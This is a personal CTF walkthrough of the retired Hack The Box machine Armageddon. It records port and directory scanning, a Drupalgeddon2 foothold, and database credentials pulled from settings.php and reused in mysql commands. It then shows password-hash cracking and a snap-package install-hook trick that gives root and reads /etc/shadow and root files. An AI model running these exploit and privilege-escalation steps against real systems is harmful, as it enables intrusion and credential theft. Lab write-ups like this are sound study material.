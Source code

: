 ```yaml
---
tags:
  - HTB
  - Retired
  - Linux
  - Drupal
  - Snap
creation date: 2021-03-27
Date Completed: 2024-09-14
CVEs: CVE-2018-7600
URL: https://app.hackthebox.com/machines/Armageddon/information
IP: 10.129.16.68
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T4 --min-rate=1000 $IP  
```

```
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Welcome to  Armageddon |  Armageddon
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16

```

### ffuf (Directories/Subdomain/Files)
```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt:FUZZ -u $URL/FUZZ
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt:FUZZ -u $URL/FUZZ
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u $URL -H "HOST: FUZZ.domain.htb"
```

### Nikto (Identify Technology)

Drupal 7
Server: Apache/2.4.6 (CentOS) PHP/5.4.16

## Foothold
Drupalgeddon2
unix/webapp/drupal_drupalgeddon2

### System Enumeration

![[Pasted image 20240914091807.png]]

### Drupal 
![[Pasted image 20240914095237.png]]

find / -iname settings.php 2>/dev/null
/var/www/html/sites/default/settings.php
![[Pasted image 20240914095057.png]]
`drupaluser:CQHEy@9M*m23gBVj

```
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'show databases'
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'use drupal;show tables'
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'use drupal;show tables;select * from users'
```

![[Pasted image 20240914101828.png]]

```
hashcat -m 7900 bruce_hash /opt/tools/SecLists/Passwords/xato-net-10-million-passwords.txt
```

![[Pasted image 20240914102349.png]]


## Privilege Escalation

![[Pasted image 20240914103321.png]]

https://gtfobins.github.io/gtfobins/snap/

Install fpm and run to get root flag:
```
COMMAND='cat /root/root.txt'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n hacked -s dir -t snap -a all meta
```

curl the malicious snap package over
```
curl http://10.10.15.64/hacked_1.0_all.snap -o hacked_1.0_all.snap
```

Run command:
```
sudo snap install hacked_1.0_all.snap --dangerous --devmode
```

## more fun
trying to get a reverse shell as root
i tried every reve shell i could find. so i'm back to enumerating as root and waiting to see if the password cracks...

```
COMMAND='cat /etc/shadow'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n hacked -s dir -t snap -a all meta
```

```
COMMAND='ls -lah /root/'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n hacked -s dir -t snap -a all meta
```

```
COMMAND='cat /root/passwd'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n hacked -s dir -t snap -a all meta
```

```
COMMAND='cat /root/reset.sh && cat /root/cleanup.sh'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n hacked -s dir -t snap -a all meta
```